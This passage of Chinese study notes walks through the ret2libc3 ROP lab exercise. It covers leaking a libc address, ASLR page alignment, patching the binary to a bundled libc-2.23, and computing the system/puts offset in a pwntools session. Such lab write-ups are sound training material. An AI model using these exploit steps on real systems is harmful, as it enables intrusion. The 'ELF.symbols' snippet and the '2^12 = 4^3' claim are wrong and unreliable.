 ```C
int __cdecl See_something(const void **a1)
{
  return printf("The content of the address : %p\n", *a1);
}
```

* 注意`ASLR`中仍然保持页对齐（4KB, 2^12 = 4^3），按照十六进制，后三（*4）位是不变的

  > 即 `0xf7e34c40` 可能在远程服务器上可能显示`0x-----c40`
  >
  > 这一点可以验证泄漏的值是否正确

##### 更改libc库为同文件下libc

> libc是依赖ld版本的，因此libc和ld都要同时变化

```shell
# ganliber @ ganliber-virtual-machine in ~/Documents/ROP/ret2libc3 [21:52:25] 
$ ls
libc-2.23.so  ret2libc3

# ganliber @ ganliber-virtual-machine in ~/Documents/ROP/ret2libc3 [21:52:25] 
$ ldd ret2libc3
	linux-gate.so.1 (0xf7f03000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7cfb000)
	/lib/ld-linux.so.2 (0xf7f05000)

# ganliber @ ganliber-virtual-machine in ~/Documents/ROP/ret2libc3 [21:52:28] 
$ patchelf --replace-needed libc.so.6 ./libc-2.23.so ./ret2libc3

# ganliber @ ganliber-virtual-machine in ~/Documents/ROP/ret2libc3 [21:53:20] 
$ ldd ret2libc3
	linux-gate.so.1 (0xf7f27000)
	./libc-2.23.so (0xf7d6d000)          <----- 已经变为本路径下的了
	/lib/ld-linux.so.2 (0xf7f29000)
```

除此之外还需要更改`ld`，详见本仓库`README`中的内容



##### 查找`libc`的`plt`和`got`

> 针对特定版本的`libc`

```python
from pwn import *
libc = ELF('./libc-2.23.so')
distance = ELF.symbols["system"]-ELF.symbols["puts"]  # 求算相对距离
```

python交互

```python
*] '/home/ganliber/Documents/ROP/ret2libc3/libc-2.23.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
>>> io = process('./ret2libc3')
[x] Starting local process './ret2libc3'
[+] Starting local process './ret2libc3': pid 11138
>>> io.recvline()
b'###############################\n'
>>> libc.symbols["system"] - libc.symbols["puts"]
-149504
>>> io.send(str(134520860))         <--------------------------------- 此处的134520860是运行过程中泄漏的
```